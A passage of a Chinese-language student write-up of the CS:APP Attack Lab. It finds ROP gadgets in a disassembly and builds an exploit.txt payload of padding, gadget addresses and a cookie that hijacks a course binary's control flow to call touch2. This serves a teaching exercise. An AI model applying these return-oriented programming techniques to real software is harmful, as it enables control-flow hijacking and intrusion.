 观察上图，并寻找含有`58`～`5f`的语句：

```assembly
00000000004019a7 <addval_219>:
  4019a7:	8d 87 51 73 58 90    	lea    -0x6fa78caf(%rdi),%eax
  4019ad:	c3                   	retq
```

此处的`58 90 c3`对应：

```assembly
popq    %rax
nop
ret
```

我们找到了可以`pop`到`%rax`寄存器的指令，地址为`4019a7+4=4019ab`。

---

然后我们寻找可以实现`%rax`->...->`%rdi`的指令。

![图3A](https://i0.hdslb.com/bfs/album/8423a14b10acd90c54410f40765cb128cd5e16aa.png)

观察上图，如果有`48 89 c7`最好，如果没有则需要多传递几次。寻找结果：

```assembly
00000000004019a0 <addval_273>:
  4019a0:	8d 87 48 89 c7 c3    	lea    -0x3c3876b8(%rdi),%eax
  4019a6:	c3                   	retq
```

此处的`48 89 c7 c3`对应：

```assembly
movq    %rax,%rdi
ret
```

地址为`4019a0+2=4019a2`。

---

将得到的各个`gadget`进行总结：

```assembly
popq    %rax      # 4019ab
                  # cookie
movq    %rax,%rdi # 4019a2
                  # address of touch2
```

其中`cookie`为`59b997fa`，`touch2`的地址为`4017ec`。

---

编辑用于攻击的字符串文件`exploit.txt`（**注意注释周围的空格**）：

```shell
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00 /* popq    %rax */
fa 97 b9 59 00 00 00 00 /* cookie */
a2 19 40 00 00 00 00 00 /* movq    %rax,%rdi */
ec 17 40 00 00 00 00 00 /* address of touch2 */
```
